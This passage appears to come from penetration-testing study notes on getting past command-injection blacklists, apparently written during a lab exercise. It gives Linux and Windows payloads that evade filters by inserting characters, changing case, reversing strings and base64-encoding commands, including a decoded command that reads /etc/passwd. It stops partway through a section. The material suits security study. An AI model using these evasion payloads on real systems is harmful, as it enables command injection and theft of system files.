 >>![[Images/Pasted image 20250506182737.png]]
>>Normally the `cat` command is blacklisted, so using it returns an `Invalid command` response. But, by obsfucating the `cat` command, the input is accepted and we can chain previous character bypasses to read a file on the victim (`flag.txt`).
>
>###### Windows only
>```powershell
># There are also some Windows-only characters which can be inserted in the middle of a command and do not affect the result, like the carat `^` character
>
>who^ami -> whoami
>```

>[!code]- Case manipulation
>###### Linux
>```powershell
># Linux commands are case sensitive, so we need to find a way of turning a mixed-case or upper-case command into its lower-case variant
>
>$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") # replace all upper case characters with lower case characters
>
>$(a="WhOaMi";printf %s "${a,,}") # same affect, and without a newline character at the end
>$
>```
>###### Windows
>```powershell
># Windows commands are case-insensitive, so it might work to change the case of some/all of the characters in the command
>
>WhOaMi
>```

>[!code]- Reversed commands
>###### Linux
>```powershell
>echo 'whoami' | rev # get the reversed string
>
>$(rev<<<'imaohw') # execute the reversed string
>```
>###### Windows
>```powershell
>"whoami"[-1..-20] -join '' # get the reversed string
>
>iex "$('imaohw'[-1..-20] -join '')" # execute the reversed string
>```

>[!code]- Encoded commands
>###### Linux
>```powershell
># encode the command
>echo -n 'cat /etc/passwd | grep 33' | base64
>
># decode the command
>bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw=) # option 1
>bash -c "$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw=)" # option 2
>```
>
>###### Windows
>```powershell
># Encode the command
>[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami')) # on Windows
>echo -n whoami | iconv -f utf-8 -t utf-16le | base64 # on Linux 
>
># Decode then execute the encoded command